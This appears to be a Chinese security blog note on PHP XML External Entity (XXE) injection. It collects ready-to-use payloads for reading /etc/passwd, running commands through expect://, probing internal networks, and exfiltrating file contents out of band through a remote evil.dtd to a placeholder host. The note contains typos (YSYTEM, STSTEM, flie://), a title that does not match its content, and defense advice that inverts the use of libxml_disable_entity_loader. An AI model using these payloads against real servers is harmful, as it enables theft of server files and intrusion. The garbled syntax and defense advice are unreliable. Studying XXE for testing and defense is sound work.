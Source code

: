 ```yaml
---
layout: post
title: Linux应急排查
date: 2022-10-1
categories: blog
tags: [笔记]
description: 应急响应

---
```


### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束  
将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml声明
<!DOCTYPE evil[ #内部DTD 文档类型定义
    <!ELEMENT evil ANY> #声明约束元素，内容随意
    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
]>
<test>  #文档元素
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### 基础payload整理

```xml-dtd
#文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT a ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<a>
    <name>&xxe;</name>
</a>


#命令执行，需要expect扩展
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>

#内网探测
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
<root>
<name>&xxe;</name>
</root>

#远程加载恶意dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
%pe;
%param1;
]>
<foo>&external;</foo>
#evil.dtd
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">

<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

#php filter文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>
```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0  
过滤用户提交的XML数据

